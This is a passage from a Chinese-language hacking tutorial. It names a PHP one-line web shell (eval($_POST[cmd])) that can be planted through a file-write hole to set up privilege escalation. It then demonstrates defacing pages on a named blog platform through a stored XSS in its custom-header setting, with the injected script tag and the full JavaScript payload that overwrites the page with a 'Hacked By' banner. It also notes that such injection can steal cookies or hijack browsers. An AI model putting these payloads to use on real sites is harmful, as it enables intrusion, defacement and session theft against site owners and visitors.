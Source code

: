 当然，这些漏洞除了读取文件外，还可写入一句话木马<?php eval($_POST[cmd])?>，为进一步提权提供条件。

**四、Hacking HomePage**
相信对于很多初学 Hack 的朋友，都会对那一张张的黑页独有情钟，尤其是当前中美黑客大战中，中国人挂在白宫网站上黑页，让人至今记忆犹新！本节主要就是利用 XSS 来黑掉别人博客主页，但这里的黑页与入侵服务器来修改主页有很大区别，利用 XSS 来黑页其实并不是修改服务器上的页面，它只是通过 JavaScript,CSS 及其它 WEB 技术来修改页面。这主要就是通过注入 js 代码，然后在后台执行以达到盗取 cookie 或劫持浏览器的目的，这些代码往往都是一些 HTML 或 JavaScript 代码(往往是使用 InnerHTML 或者 document.write 命令来动态创建文本，图像及其它数据信息)。在本文编写过程中，我又发现了博客大巴上的几处跨站漏洞，就在“博客设置”中，这里我们就以其中“基础设置”下的“自定义 header”一栏为例。我们先在向其写入下列语句：
**<script src ="http://localhost/1.js"></script>**
接下来编写 1.js 代码：
**document.write("<center><h1><font color=#FF0000>Hacked By riusksk</font></h1></cneter>");
document.write("<center><h2><font color=#000000>Just for test !</font><h2></center><p><img src=http://filer.blogbus.com/6233861/resource_6233861_1283677044i.jpg></p><p><!--");**
上面的“<!”主要是用于将后面的页面内容注释掉，避免显示，但这在各浏览器中情况会有所不同，比如我在 Chrome 中可以起到此作用，但在其它浏览器达不到此效果了，得采用其它注释语句方可，或者先用 document.body.innerHTML = '';来清空 body 主体中的 html 代码，然后再逐一利用 document.createElement 创建元素也是可行的。这里我是以 Chrome 作为测试用的浏览器，访问博客首页后结果如图 15 所示：
![](img/3de1a1a3153c22f266d1c29823f4a2b3.jpg)
                                         图 15
成功“黑掉”博客主页！
